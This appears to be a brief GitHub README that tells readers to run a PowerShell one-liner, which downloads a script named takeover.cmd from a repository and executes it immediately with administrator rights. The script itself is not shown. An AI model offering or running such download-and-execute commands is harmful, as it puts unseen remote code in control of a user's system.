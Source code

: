 **How to run:**
- Win+R
- *cmd /k powershell  -command "Invoke-WebRequest -Uri https://raw.githubusercontent.com/Fidasek009/1337/main/takeover.cmd -OutFile .\takeover.cmd; .\takeover.cmd"*
- Ctr+Shift+Enter
